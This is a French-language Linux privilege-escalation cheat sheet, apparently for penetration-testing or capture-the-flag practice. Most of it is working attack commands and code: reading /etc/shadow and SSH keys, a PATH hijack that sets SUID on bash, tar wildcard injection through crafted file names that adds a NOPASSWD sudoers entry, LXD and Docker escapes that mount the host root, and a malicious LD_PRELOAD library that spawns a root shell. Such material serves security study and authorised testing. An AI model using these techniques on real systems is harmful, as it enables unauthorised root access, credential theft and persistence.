 # Enumération

## Outils

- **LinEnum.sh** : https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
- **Linux Exploit Suggester 2** : https://github.com/jondonas/linux-exploit-suggester-2

## Commandes

```bash
hostname
cat /etc/issue
ps aux | grep root
ls -la /home/user
ls -l ~/.ssh
history
sudo -l
ifconfig
netstat
last
cat /etc/passwd
cat /etc/shadow
lsblk
find / -user test 2>/dev/null
find / -perm -u=s 2>/dev/null
id
uname -a
lscpu
df -h
cat /etc/hosts
env
sudo -V
```

## Recherche de fichiers et permissions

```bash
find / -type f \( -name "*.conf" -o -name "*.config" \) -exec ls -l {} \; 2>/dev/null
find / -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
getcap -r / 2>/dev/null
```

# NFS

## Machine victime

```bash
cat /etc/exports
```

## Machine attaquante

```bash
showmount -e <MACHINE_IP>
mkdir /tmp/sharefolder
sudo mount -o rw <MACHINE_IP>:/sharedfolder /tmp/sharefolder
```

# Suid / sudo / capabilities

Références : https://gtfobins.github.io/

# PSPY

- **Outil** : https://github.com/DominicBreuker/pspy
- **Usage** : Lister les processus sans être root (ex. voir les cronjobs)

# Path

```bash
echo $PATH
cd /tmp
echo "chmod u+s /bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
```

# Wildcard Exploitation

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

# Groupes et conteneurs

## LXD

```bash
unzip alpine.zip 
lxd init
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t host-root disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```

## Docker

```bash
docker run -v /root:/mnt -it ubuntu
```

# LD_PRELOAD Exploitation

## Vérifier les permissions

```bash
sudo -l
```

## Compiler une bibliothèque malveillante

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

## Exécuter avec LD_PRELOAD

```bash
sudo LD_PRELOAD=/tmp/root.so /usr/bin/openssl restart
```
